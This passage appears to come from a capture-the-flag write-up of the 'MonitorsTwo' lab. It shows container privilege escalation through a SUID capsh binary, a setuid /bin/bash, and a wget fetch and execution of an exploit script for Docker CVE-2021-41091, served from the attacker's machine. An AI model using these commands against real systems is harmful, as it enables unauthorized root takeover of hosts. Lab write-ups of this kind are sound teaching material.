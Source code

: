 From these CVE's the XSS is meaningless at this point and the kernel one seems too obscure meanwhile, the docker seems like an easy one. According to the CVE if we manage to get root in the container we can get root in the real machine. This [github repo](https://github.com/UncleJ4ck/CVE-2021-41091) explains it really well and comes with an exploit. Now back to the container.


```shell
bash-5.1$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/bash
/bin/su
```

One of the first things one should do when trying to privesc is searching for SUID binaries, in this case we hit jackpot since capsh (a linux tool used to manage capabilities) can be used to privesc just like [GTFO bins](https://gtfobins.github.io/gtfobins/capsh/) explains.

```shell
bash-5.1$ capsh --gid=0 --uid=0 --
root@50bca5e748b0:/var/www/html# chmod u+s /bin/bash
```

Now we just have to run the exploit.

```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
...
marcus@monitorstwo:/dev/shm$ wget 10.10.14.79:8000/exp.sh
--2023-05-30 15:47:01--  http://10.10.14.79:8000/exp.sh
Connecting to 10.10.14.79:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2446 (2.4K) [application/x-sh]
Saving to: ‘exp.sh’

exp.sh                                                    100%[====================================================================================================================================>]   2.39K  --.-KB/s    in 0s

2023-05-30 15:47:01 (13.4 MB/s) - ‘exp.sh’ saved [2446/2446]

marcus@monitorstwo:/dev/shm$ chmod a+x exp.sh
marcus@monitorstwo:/dev/shm$ ./exp.sh
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
```